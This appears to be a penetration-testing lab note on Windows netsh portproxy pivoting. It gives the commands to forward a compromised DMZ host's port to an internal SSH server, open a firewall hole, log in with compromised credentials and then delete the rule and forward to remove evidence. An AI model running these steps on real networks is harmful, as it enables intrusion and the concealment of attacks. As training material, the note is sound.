


---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Netsh

[Network shell](https://learn.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh) (netsh) is a command-line utility that allows users to configure and display the status of various network communications server roles and components after they are installed on computers running Windows Server.

In most cases, netsh commands provide the same functionality that is available when you use the [Microsoft Management Console](https://learn.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/what-is-microsoft-management-console) (MMC) snap-in for each networking server role or networking feature.

The [Netsh Command Reference](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/cc754516\(v=ws.10\)) provides a comprehensive list of netsh commands and uses.

Each netsh helper DLL provides an extensive set of features called a [context](https://learn.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts), which is a group of commands specific to a networking server role or feature. These contexts extend the functionality of netsh by providing configuration and monitoring support for one or more services, utilities, or protocols.

## Port Forwarding

It is possible to set up a port forward with the [portproxy](https://learn.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-interface-portproxy) subcontext of the interface context. The portproxy subcontext of the netsh interface command _requires administrative privileges_ to make any changes. That said, if the right permissions are obtained, it can be very useful in some restrictive situations.

Consider an example scenario where there is a network with a Windows machine (`MULTISERVER03` at `192.168.190.64`) on the perimeter of the network. This machine is running a Windows Firewall with a configuration that allows only HTTP and RDP access to the machine (ports `80` and `3389`). `MULTISERVER03` sits in the network's DMZ along with a machine running a PostgreSQL database (`PGDATABASE01` at `10.4.190.215`). `PGDATABASE01` also serves as a bridge from the DMZ to the internal network:

<figure><figcaption><p>Network layout for example</p></figcaption></figure>

For the purpose of simplifying the example, assume the attacker has gained RDP access to `MULTISERVER03` via a compromised account (`rdp_admin:P@ssw0rd!`). The account was compromised in [this example](../../attack-vectors/port-forwarding-and-tunneling/simple-port-forwarding-scenario.md#cracking-the-hash). This example is more interested in the Netsh configuration so the details of accessing the machine in the first place are left for other sections.

### Add Listener

Once connected to the machine and running a cmd.exe shell as Administrator the following command structure can be used to create a forward:


```bash
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.190.64 connectport=22 connectaddress=10.4.190.215
```


This creates a port forward from port `2222` on `MULTISERVER03` (`192.168.190.64`) to port `22` on `PGDATABASE01` (`10.4.190.215`).

The command returns no output but the [`netstat`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/netstat) command can be used to verify the port is listening:

```
netstat -anp TCP | find "2222"
```

* `-a` lists all active connections
* `-n` prevents DNS resolution so IP addresses are displayed numerically
* `-p <protocol>` is used to specify a specific connection protocol (`TCP` in this example)
* `find` is used to limit the output to only the desired port

If run after the `netsh portproxy` command the listener can be seen:

```sh
C:\Windows\system32>netstat -anp TCP | find "2222"
  TCP    192.168.190.64:2222     0.0.0.0:0              LISTENING
```

Alternatively the forward can be confirmed with the show all command for the portproxy subcontext:

```
netsh interface portproxy show all
```

Run on the example machine the forward is again displayed:

```sh
C:\Windows\system32>netsh interface portproxy show all

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
192.168.190.64   2222        10.4.190.215     22
```

### Adding Firewall Rule

While the above would be sufficient if all inbound traffic was allowed, recall from above that `MULTISERVER03` is running a Windows Firewall that is configured to drop all inbound traffic except for ports `3389` and `80`.

<figure><figcaption><p>Windows Firewall preventing connections on port 2222</p></figcaption></figure>

Specifically running Nmap against port `2222` of `MULTISERVER03` shows the port is filtered:

```bash
kali@kali:~$ nmap -sT -Pn -n -p2222 192.168.190.64
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-01 21:32 MST
Nmap scan report for 192.168.190.64
Host is up.

PORT     STATE    SERVICE
2222/tcp filtered EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 2.11 seconds
```

Fortunately in this scenario, the configuration of the Windows Firewall can be modified via `netsh`. The command to poke a hole in the firewall is:


```
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.190.64 localport=2222 action=allow
```


* `name` can be set to anything and used to reference this rule in other commands

Running this command yields minimal output but it does confirm success:

```sh
C:\Windows\system32>netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.190.64 localport=2222 action=allow
Ok.
```

### Using the Tunnel

At this point the tunnel is fully set up and usable. To SSH into `PGDATABASE01` using the account `database_admin:sqlpass123` (also compromised in [this example](../../attack-vectors/port-forwarding-and-tunneling/simple-port-forwarding-scenario.md#cracking-the-hash)) traffic is simply addressed to the listener on `MULTISERVER03` at `192.168.190.64:2222`. This traffic will then be forwarded to `PGDATABASE01` at `10.4.190.215:22`:

```
kali@kali:~$ ssh database_admin@192.168.190.64 -p2222
The authenticity of host '[192.168.190.64]:2222 ([192.168.190.64]:2222)' can't be established.
...
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.190.64]:2222' (ED25519) to the list of known hosts.
database_admin@192.168.190.64's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-122-generic x86_64)

 ...

  System information as of Sun 21 Aug 2022 10:40:26 PM UTC

  System load:  0.0               Processes:               231
  Usage of /:   60.9% of 7.77GB   Users logged in:         0
  Memory usage: 16%               IPv4 address for ens192: 10.4.190.215
  Swap usage:   0%                IPv4 address for ens224: 172.16.190.215


0 updates can be applied immediately.


Last login: Sat Aug 20 21:47:47 2022 from 10.4.190.63
database_admin@pgdatabase01:~$
```

### Deleting the Firewall Rule

If desired, the firewall rule can be deleted after completion of exploitation. To delete the rule, the `delete` command is used with `netsh advfirewall firewall`. The `name` set during [rule creation](netsh.md#adding-firewall-rule) is used to specify what should be deleted:

```
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
```

Note, most Windows Firewall commands have PowerShell equivalents with cmdlet like [`New-NetFirewallRule`](https://learn.microsoft.com/en-us/powershell/module/netsecurity/new-netfirewallrule?view=windowsserver2022-ps), [`Disable-NetFirewallRule`](https://learn.microsoft.com/en-us/powershell/module/netsecurity/disable-netfirewallrule?view=windowsserver2022-ps), and [`Remove-NetFirewallRule`](https://learn.microsoft.com/en-us/powershell/module/netsecurity/remove-netfirewallrule?view=windowsserver2022-ps). However, the `netsh interface portproxy` command doesn't.

### Deleting the Port Forward

In a similar manner, the port forward can be deleted to help remove evidence. The same `netsh interface portproxy` command is used with `del` to specify the removal of the proxy:

```
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.190.64
```
